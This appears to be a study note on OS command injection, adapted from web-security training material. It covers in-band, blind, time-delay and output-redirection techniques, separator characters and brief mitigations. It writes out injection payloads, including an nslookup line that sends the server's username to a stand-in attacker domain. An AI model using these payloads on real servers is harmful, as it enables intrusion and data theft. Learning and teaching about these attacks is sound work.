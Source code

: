 # OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Execute Arbitrary commands :

`**https://insecure-website.com/stockStatus?productID=381&storeID=29**`

consider given link there may be legacy system running script behind may be it run script with parameters ...

ie : python3 stockCheck.py 381 29

then this script gives output based on params. now assume we give additional input `**& echo "abc"**` , application may also print **abc** as application output. so input should look like...

`**https://insecure-website.com/stockStatus?productID=381%20&%20echo%20"abc"%20&storeID=29**` that will execute python3 [stockCheck.py](http://stockCheck.py) 381 & echo "abc" & 29

Output from legacy system would look like...

```bash
Error - productID was not provided

            abc

            29: command not found
```

## Commands you can use :

| Purpose of command | Linux | Windows |
| --- | --- | --- |
| Name of current user | whoami | whoami |
| Operating system | uname -a | ver |
| Network configuration | ifconfig | ipconfig /all |
| Network connections | netstat -an | netstat -an |
| Running processes | ps -ef | tasklist |

## Blind Command Injection :

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

in feedback like functionality, site may ask for email address to supply it to admin

`**mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com**`

so use something different payload like email address like `**peter@normal-user.net & echo "abc" &**` 

or we can add command in comment section too.

## Blind OS command Injection using time delays :

sometime normal output is not shown to user, so try to trigger time delays using commands like `**ping -c 10**` or `**sleep**, etc`

`**& ping -c 10 127.0.0.1 &**`

This command will cause the application to ping its loopback network adapter for 10 seconds.

## blind OS command injection by redirecting output :

You can redirect the output from the injected command into a
 file within the web root that you can then retrieve using your browser.
 For example, if the application serves static resources from the 
filesystem location `**/var/www/static**`, then you can submit the following input:

`**& whoami > /var/www/static/whoami.txt &**`

we can retrieve output at `**https://vulnerable-website.com/whoami.txt**` 

### Or we can use OAST techniques to interact with collaborator or exfiltrate data

`**& nslookup kgji2ohoyw.web-attacker.com &` - interact**

`**& nslookup `whoami`.kgji2ohoyw.web-attacker.com &` - exfiltrate username**

## Ways to inject OS Commands :

in all OS :

- `&`
- `&&`
- `|`
- `||`

in unix :

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- ``` injected command ```
- `$(` injected command `)`

# Mitigations :

Don't use OS commands directly from application but apply safer API

strong input validation is must needed

use white listing

only allow alphanumerical characters